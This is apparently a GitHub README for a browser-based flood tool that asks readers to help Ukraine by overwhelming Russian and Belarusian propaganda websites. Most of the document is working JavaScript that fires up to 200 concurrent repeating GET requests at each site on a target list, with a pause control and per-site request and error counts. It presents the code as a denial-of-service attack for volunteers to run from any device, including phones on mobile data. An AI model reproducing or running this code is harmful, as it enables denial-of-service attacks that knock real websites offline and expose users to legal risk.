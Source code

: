 ## Russian propaganda browser flood tool.
#### What is this?
This repo contains a set of standalone ".htm" pages which will allow you to help Ukraine by flooding Russian and Belarusian propaganda sites.

#### How it works
This works by sending GET requests to each targeted website.
It's just like opening each website at once on your PC and
re-requesting the data over and over, although the data is not saved or cached, It should be fair to say that your Internet service Provider (ISP) shouldnt be anymore bothered about this than they would you browsing the internet, however some will be funny about it so it's always best to protect yourself first.

Each day a new page will be made based on the targets set by the IT Army of Ukraine, you can run this on pretty much any device that can run a browser, that includes phones, tablets, game consoles and of course, computers.
If you have lots of mobile data to spare you can go out to town for example and help flood these sites from your pocket! :tw-1f606:

#### Javascript　

```javascript
 // target list
        var urls = [
            'http://example.ru/',
            'https://0.0.0.0:443/',
            'http://0.0.0.0:80/',
        ];

        // initialize variables
        var targets = urls.reduce((o, key) => ({ ...o, [key]: {number_of_requests: 0, number_of_errored_responses: 0}}), {})
        var statRow = document.querySelector("#stats > .row");
        var myModal = new bootstrap.Modal(document.getElementById('exampleModal'), {});
        var CONCURRENCY_LIMIT = 200;
        var queue = [];
        var attack = false;
        var totalrequests = 0;
        var totalerrors = 0;

        function togglePause () {
            if (attack) {
                attack = false;
                document.querySelector("div.desc .btn").innerText = "Resume";
            } else {
                attack = true;
                document.querySelector("div.desc .btn").innerText = "Pause";
                for (var i=0; i<urls.length; i++) {
                    flood(i);
                }
            }
        }

        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                signal: controller.signal,
                mode: 'no-cors'
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }

        async function sleep(ms) {
            return new Promise(r => setTimeout(r, ms));
        }         

        async function flood(n) {
            const url = urls[n];
            const target = targets[url];

            while (attack) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift();
                }
                queue.push(
                    fetchWithTimeout(url, { timeout: 2000 })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            target.number_of_errored_responses++;
                            target.error_message = error.message;
                            totalerrors++;
                        })
                        .then((response) => {
                            if (response && !response.ok) {
                                target.number_of_errored_responses++;
                                target.error_message = response.statusText;
                                totalerrors++;
                            }
                            target.number_of_requests++;
                        })
                        .finally(() => updateTargetDisplay(n))
                );

                await sleep(1);
            }
        }

        // Update data for target n
        function updateTargetDisplay(n) {
            var url = urls[n];
            var {number_of_requests, number_of_errored_responses} = targets[url];
            var requests_cell = document.querySelector(`#target${n} .requests`);
            var errors_cell = document.querySelector(`#target${n} .errors`);
            requests_cell.innerText = number_of_requests;
            errors_cell.innerText = number_of_errored_responses;
            document.querySelector("#totalrequests").innerText = totalrequests;
            document.querySelector("#totalerrors").innerText = totalerrors;
        }

        // Shuffle array order before starting
        for (let i = urls.length - 1; i > 0; i--) {
            const j = Math.floor(Math.random() * (i + 1));
            [urls[i], urls[j]] = [urls[j], urls[i]];
        }

        // Create div for each target
        for (var i=0; i<urls.length; i++) {
            statRow.innerHTML += `
                <div class="col-lg-3 col-md-4 col-sm-6" id="target${i}">
                    <h4>${urls[i]}</h4>
                    <table class='status'>
                        <tr><td>requests:</td><td class="requests">0</td></tr>
                        </tr><td>errors:</td><td class="errors">0</td></tr>
                    </table>
                </div>
            `;
        }

        // Show warning window
        myModal.toggle();

    
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-85513613-1');
```

###Images

.htm page launch:

![](https://i.imgur.com/EIJ70YB.png)

> Flood russian propaganda.

![](https://i.imgur.com/KIOXd2l.png)

> After clicking Continue

Scrolling down a little：

![](https://i.imgur.com/LoSwA79.png)"Here you can see the tool running on each site")


